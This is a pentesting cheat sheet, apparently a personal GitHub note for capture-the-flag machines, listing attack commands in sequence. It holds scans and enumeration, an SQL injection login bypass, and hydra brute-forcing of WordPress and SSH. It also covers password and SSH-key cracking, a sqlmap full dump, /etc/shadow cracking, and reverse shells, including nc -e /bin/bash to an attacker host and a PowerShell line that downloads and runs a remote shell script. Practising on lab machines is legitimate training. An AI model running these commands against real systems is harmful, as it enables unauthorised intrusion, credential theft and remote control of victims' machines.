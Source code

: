 # _**Some Important Notes**_

-------------------------------------------------------------------------------------------

`verison` 
`1.1.2`

-------------------------------------------------------------------------------------------


`General Nmap Scan`


	nmap -sV -A {machine IP} 


`If ping is being blocked`

	nmap -sV -A {machine IP} -Pn


------------------------------------------------------------------------------------------

`Gobuster`

	gobuster dir -u http://machineip -w wordlists


--------------------------------------------------------------------------------------------

`rust scan`


	rustscan -a {machine IP} -- -A -sC -sV

-------------------------------------------------------------------------------------------------


`enum4linux`

	./enum4linux.pl -U {machine IP} 

`or also -S be used`

	./enum4linux.pl -S {machine IP}

-----------------------------------------------------------------------------------------------

`subclient`


	smbclient -L //10.10.97.76/

	smbclient //10.10.97.76/{directory to access}

--------------------------------------------------------------------------------------------

`SUID permission`

	find / -perm -u=s -type f 2>/dev/null

`Search root flag`

	find / -name root.txt
	
	
----------------------------------------------------------------------------------------------

`Download From Reverse Shell`

`In Reverese shell`

	python3 -m http.server {port}

`In local Machine`

	wget machineip:8000/file.name


`for directory` `sometimes`

	wget --recursive --no-parent  10.10.46.113:8000/{directory}

------------------------------------------------------------------------------------------------------

`linpeas.sh`

	linpeas.sh is the best script for previlage escilation


-------------------------------------------------------------------------------------------------------

`FTP download/upload`

	get -> download file
	put -> upload file

-------------------------------------------------------------------------------------------------------

`sql injection` 
`login bypass`

	 username: ' or 1=1 --
	 password: anything

---------------------------------------------------------------------------------------------------

`netcat`

	nc -nvlp {port}

-------------------------------------------------------------------------------------------------

`PTY shell upgrade`
`Stable Reverse Shell connnection`

        python3 -c 'import pty; pty.spawn("/bin/bash")'

-------------------------------------------------------------------------------------------------
`john the ripper`
`john`

	john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.john

-----------------------------------------------------------------------------------------------------

`rsa` 
`ssh2john`

	/usr/share/john/ssh2john.py id_rsa > id_rsa.john 

`then`

       john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.john

`john for hash`
	
	john --format=raw-sha1 hash

`ssh2johnhash`

	chmod 600 id_rsa #change mode to initial RSA private key file

`for ssh connection`

	ssh -i id_rsa user@ip 


------------------------------------------------------------------------------------------------------

`hydra`


        hydra -l user -P wordlists.txt {ip} -V http-form-post "page:parameters:string"



`example:`


        hydra -l user -P /usr/share/wordlists/rockyou.txt 192.168.208.134 -V http-form-post "wp-login.php:log=^USER^&^PASS^$wp-submit:LogIn&testcookie=1:F=incorrect"


`use burpsuit for rest of info`

--------------------------------------------------------------------------------------------------------

`hydra ssh`

	hydra -l jake -P /usr/share/SecLists/Passwords/Leaked-Databases/rockyou.txt 10.10.215.72 ssh -t 4 
	

-----------------------------------------------------------------------------------------------------


`hashid`

	hashid -m '{hash value}'

`hashcat`

	hashcat -m {mode value from hashid} {hash value} {/wordlists.txt}

-------------------------------------------------------------------------------------------------------------

`sqlmap`

	sqlmap -u http://10.10.71.73 --forms --tamper=space2comment --dump-all -dbms sqlite

----------------------------------------------------------------------------------------------------------------
`steghide`

	steghide extract -sf brooklyn99.jpg
	
`stegcracker`
	
	stegcracker brooklyn99.jpg  /usr/share/SecLists/Passwords/Leaked-Databases/rockyou.txt

`binwalk`

	binwalk -e file.jpg


-------------------------------------------------------------------------------------------------------------------

`Network File System (NFS) `

`Know mount location` 

	 sudo showmount -e 'machine-ip'

`to mount the file`

	sudo mount -t nfs 'machine-ip':/opt/conf /tmp/mountme

`note` `/opt/conf/ is mount location` `and` `/tmp/mountme` `is where you want to save file`


-------------------------------------------------------------------------------------------------------------------------------------

`Redis`

	redis-cli ip_here  -a password_here

`command for redis interface`
	
	keys * for ls
	get 'filename' for cat

`for more`

	https://redis.io/commands
	
`mysql`

	sudo mysql -h 10.10.229.126 -u root -p

`reversing from netcat`

`on linux machine`

attacker machine 

	nc -nvlp 9578

victim machine

	nc -e /bin/bash {ip of attacker} 9578
	
`on windows machine`

attacker machine 

	stty raw -echo; (stty size; cat) | nc -lvnp 3001
	
victim machine with powershell

	IEX(IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell 10.0.0.2 3001

Cracking Shadow Hash

`copy the file` `/etc/shadow` `and` `/etc/passwd` `to and same path` 

	unshadow passwd shadow > john.hash![image](https://user-images.githubusercontent.com/84837928/150918048-e965c846-ac2c-4857-9efd-75a98e893abb.png)


# @cc github.com/prakashchand72


